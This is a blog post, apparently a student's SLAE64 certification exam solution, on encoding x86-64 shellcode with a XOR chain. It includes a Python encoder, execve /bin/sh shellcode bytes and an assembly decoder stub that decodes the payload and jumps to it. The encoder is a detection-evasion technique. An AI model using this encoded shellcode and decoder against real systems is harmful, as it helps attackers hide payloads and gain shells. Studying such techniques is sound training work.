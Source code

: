 title: XORChain Encoded Shellcode
date: 2018-05-19
published: true 
summary: My solution to SLAE64 Exam Question 4
tags: shellcode, exploit, assembly

# XORChain Encoded Shellcode

This is my solution to the fourth exam question of the SLAE64 certification. This exercise was to write an encoder for shellcode, as well as a working demo with a decoder stub to decode the instructions and then jump to them.

To be clear, encoding is not encryption. It is meant to transform the data in some way, but is not meant to be safe from efforts to reverse the encoding. In fact, knowledge of the encoding scheme should be sufficient to decode the data. However, I borrowed an concept from encryption in my encoding scheme: cipher-block chaining. In such an encryption scheme, the output of each data block transform is used as input to the subsequent data block transform. I borrowed this concept and created an encode-block chain... or something.

Basically, my scheme is just a `xor` chain. It `xor`s the first byte with `0x00`, then the second with the output of that, then the third byte with the output of the second byte transform, and so on. Definitely not encryption. I wrote an encoder to generate encoded shellcode in Python:

    #!/usr/bin/python

    # python xorchain encoder
    # based on class insertion encoder
    # b0_enc = b0_clear ^ 0x00 (nop)
    # b1_enc = b1_clear ^ b0_enc
    # b2_enc = b2_clear ^ b1_enc

    import random

    shellcode = ("\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\x50\x48\x89\xe2\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05")

    encoded = ""
    encoded2 = ""
    print 'Encoded shellcode ...'

    prev = 0x00;
    for x in bytearray(shellcode) :
        xored = x ^ prev            
        encoded += '\\x'
        encoded += '%02x' % xored
        encoded2 += '0x'
        encoded2 += '%02x,' %xored
        prev = xored


    print encoded
    print encoded2
    print 'Len: %d' % len(bytearray(shellcode))

![py encoder](/static/blog/2018/SLAE64/4/python_encoder.png)

The shellcode generated here is shellcode used in other parts of this course, it just spawns `/bin/sh` to give you a shell.

To decode, I had to start at the last byte, decode it by `xor`ing it with the previous byte, and work my way backwards until the first byte - which is unchanged as `xor 0x00` is a nop. Of course, the decoder is in assembly rather than Python:

    ;loosely based on insertion-decoder.nasm from security-tube class
    ;encoding scheme is simple - xor chain, need to walk backwards to decode
    ;currently 'decodes' hardcoded number of bytes (instead of having markers)

    global _start           

    section .text
    _start:
        jmp decoder 
        encoded_shellcode: db 0x48,0x79,0xb9,0xe9,0xa1,0x1a,0x35,0x57,0x3e,0x50,0x7f,0x50,0x23,0x4b,0x18,0x50,0xd9,0x3e,0x6e,0x26,0xaf,0x4d,0x1a,0x52,0xdb,0x3d,0x75,0xf6,0x36,0x0d,0x02,0x07 

    decoder:
        ;prep stuff
        lea rsi, [rel encoded_shellcode]
        xor rax, rax
        xor rdx, rdx
        mov al, 0x20
        
        
    decode: 
        sub al, 1
        mov bl, byte [ rsi + rax ]
        xor byte [ rsi + rax + 1], bl
        ;check if done
        cmp dl, al 
        jz short encoded_shellcode
        jmp short decode

As mentioned in the comments, the main decision with a decoder like this is how to mark the end of the data. Generally this will either be passed to a function, set by markers (like 0x00 for strings) or just hardcoded. My code is just hardcoded to walk 31 bytes back since I know that's the length of my shellcode. 

After `xor`ing 31 bytes, I just jump to the now decoded shellcode, and get my shell:

![decode shell](/static/blog/2018/SLAE64/4/decode_shell.png)

The shellcode is 64 bytes total, but remember 32 of those are the `execve` shellcode contents. So the decoder stub is actually 32 bytes.

All code referenced in this blog post is available at: <https://github.com/mrT-F/SLAE64/tree/master/4>

*This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert Certification*

*Certification at: <http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/>*

*Student ID: SLAE64 - 1546*